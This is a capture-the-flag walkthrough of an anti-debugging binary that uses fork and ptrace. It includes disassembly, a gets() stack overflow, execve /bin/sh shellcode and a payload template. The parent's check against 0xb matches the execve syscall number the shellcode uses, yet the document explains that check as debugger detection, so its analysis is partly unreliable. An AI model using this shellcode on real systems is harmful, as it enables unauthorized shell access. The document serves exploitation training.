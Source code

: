 # Level4 - Anti-Debugging Challenge Walkthrough

## Overview
Level4 implements **anti-debugging protection** using `fork()`, `ptrace()`, and process monitoring. The program creates a child process that sets up debugging protection, while the parent monitors for debugging attempts. However, it contains a **buffer overflow vulnerability** in the `gets()` function that can be exploited with shellcode.

## Key Assembly Analysis

### Main Function Structure
```assembly
0x080486d6 <+14>:    call   0x8048550 <fork@plt>          # fork() - Create child process
0x080486db <+19>:    mov    %eax,0xac(%esp)               # Store child PID
0x080486e2 <+26>:    lea    0x20(%esp),%ebx               # Load buffer address
0x080486f4 <+44>:    rep stos %eax,%es:(%edi)             # Initialize buffer with zeros
0x08048709 <+65>:    cmpl   $0x0,0xac(%esp)               # Check if child process
0x08048711 <+73>:    jne    0x8048769 <main+161>          # Jump to parent code
```

### Child Process (Anti-Debugging Setup)
```assembly
0x08048722 <+90>:    call   0x8048540 <prctl@plt>         # prctl(PR_SET_DUMPABLE, 1)
0x08048746 <+126>:   call   0x8048570 <ptrace@plt>        # ptrace(PTRACE_TRACEME, 0, 0, 0)
0x08048752 <+138>:   call   0x8048500 <puts@plt>          # puts("Give me some shellcode, k")
0x0804875e <+150>:   call   0x80484b0 <gets@plt>          # gets(buffer) - VULNERABLE!
```

### Parent Process (Debugger Detection)
```assembly
0x08048770 <+168>:   call   0x80484f0 <wait@plt>          # wait(&wait_status)
0x080487dc <+276>:   call   0x8048570 <ptrace@plt>        # ptrace(PTRACE_PEEKDATA, child_pid, 0x2c, 0)
0x080487e8 <+288>:   cmpl   $0xb,0xa8(%esp)               # Check if ptrace returned 0xb
0x080487f0 <+296>:   jne    0x8048768 <main+160>          # Loop if debugger detected
```

## Anti-Debugging Mechanisms

### 1. Fork Protection
- **Purpose**: Separate user input handling from monitoring
- **Implementation**: `fork()` creates child process
- **Effect**: Parent can monitor child without interference

### 2. Ptrace Protection
- **Purpose**: Prevent multiple debuggers from attaching
- **Implementation**: `ptrace(PTRACE_TRACEME, 0, 0, 0)` in child
- **Effect**: Only one debugger can attach to child process

### 3. Debugger Detection
- **Purpose**: Detect if external debugger is attached
- **Implementation**: Parent tries `ptrace(PTRACE_PEEKDATA)` on child
- **Logic**: If debugger attached, ptrace fails (returns -1)

### 4. Process Monitoring
- **Purpose**: Monitor child process status
- **Implementation**: `wait()` and status checking
- **Effect**: Detect if child was killed or stopped

## Vulnerability Analysis

### Buffer Overflow in gets()
```c
char buffer[32];  // 32-byte buffer on stack
gets(buffer);     // No bounds checking - VULNERABLE!
```

**Issues:**
- `gets()` has no bounds checking
- Can overflow buffer and overwrite return address
- Stack-based buffer overflow vulnerability

### Stack Layout
```
High Address
+------------------+
| Return Address   | <- Target for overflow
+------------------+
| Saved EBP        |
+------------------+
| Local Variables  |
+------------------+
| buffer[32]       | <- 32-byte buffer
+------------------+
Low Address
```

## Exploitation Strategy

### Step 1: Understand the Protection
- Anti-debugging prevents traditional debugging
- Must use shellcode injection instead
- Buffer overflow bypasses ptrace protection

### Step 2: Calculate Buffer Offset
- Buffer size: 32 bytes
- Need to find exact offset to return address
- Use pattern generation to find offset

### Step 3: Create Shellcode
```python
# Basic shellcode for /bin/sh
shellcode = (
    "\x31\xc0"              # xor eax, eax
    "\x50"                  # push eax
    "\x68\x2f\x2f\x73\x68"  # push "//sh"
    "\x68\x2f\x62\x69\x6e"  # push "/bin"
    "\x89\xe3"              # mov ebx, esp
    "\x50"                  # push eax
    "\x53"                  # push ebx
    "\x89\xe1"              # mov ecx, esp
    "\xb0\x0b"              # mov al, 11
    "\xcd\x80"              # int 0x80
)
```

### Step 4: Build Exploit
```python
# Exploit structure
payload = shellcode + "A" * (offset - len(shellcode)) + return_address
```

## Testing Commands

```bash
# Run the program
./level04

# Expected output
Give me some shellcode, k

# Send exploit payload
python -c "print('shellcode + padding + return_address')" | ./level04
```

## Expected Results

1. **Normal execution**: Program waits for input
2. **With debugger**: Infinite loop or "child is exiting..."
3. **With shellcode**: Shell access in child process
4. **Success**: `$` prompt from shell

## Key Points

- **Anti-debugging**: Uses ptrace and process monitoring
- **Vulnerability**: Buffer overflow in gets() function
- **Exploitation**: Shellcode injection via buffer overflow
- **Protection bypass**: Direct code execution in child process
- **Stack layout**: 32-byte buffer with return address overwrite
- **System calls**: fork(), ptrace(), wait(), gets(), kill()

## Exploitation Steps

1. **Analyze the assembly** to understand anti-debugging
2. **Identify the vulnerability** in gets() function
3. **Calculate buffer offset** to return address
4. **Create shellcode** for /bin/sh execution
5. **Build exploit payload** with proper structure
6. **Test the exploit** to get shell access

The challenge requires **bypassing anti-debugging protection** through **buffer overflow exploitation** rather than traditional debugging techniques.

